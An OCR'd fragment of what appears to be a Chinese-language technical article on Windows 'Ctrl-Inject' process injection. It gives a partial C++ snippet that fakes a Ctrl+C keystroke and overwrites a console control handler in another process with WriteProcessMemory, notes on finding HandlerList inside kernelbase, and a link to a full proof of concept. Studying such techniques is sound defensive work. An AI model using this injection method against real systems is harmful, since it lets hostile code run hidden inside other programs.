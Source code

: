 ```cpp  
PostMessageA(hWindow, WM_KEYDOWN, 'C', 0); 
Sleep(100); 
ip.type = INPUT_KEYBOARD; 
ip.ki.wScan = 0;
 ip.ki.time = 0;
 ip.ki.dwExtraInfo = 0; 
ip.ki.wVk = VK_CONTROL;
 ip.ki.dwFlags = KEYEVENTF_KEYUP; 
SendInput(1, &ip, sizeof(INPUT));
ntdll!RtlEncodeRemotePointer(h, kernelbase!DefaultHandler, &encoded_addr); 
WriteProcessMemory(h, kernelbase!SingleHandler, &encoded_addr, 8, NULL);
```  
上面的示例中没由显示如何找到HandlerList的.HandlerList是保存在kernelbase的空间中需要我们自己去寻找.我们可以通过函数SetConsoleCtrlHandle中去查找对SetCtrlHandler函数的调用(00007ffc2b62a761 e85a000000 call KERNELBASE!SetCtrlHandler (00007ffc2b62a7c0)),再从SetCtrlHandler当中去寻找HandlerListLength的调用(/00007ffc2b62a7cf 8b3d7bdb1a00 mov edi,dword ptr KERNELBASE!HandlerListLength (00007ffc2b7d8350)),HandlerListLength+8即是HandlerList的位置(x64)  
更详细的代码可以看https://github.com/theevilbit/injection/blob/master/Ctrlinject/Ctrlinject/Ctrlinject.cpp  

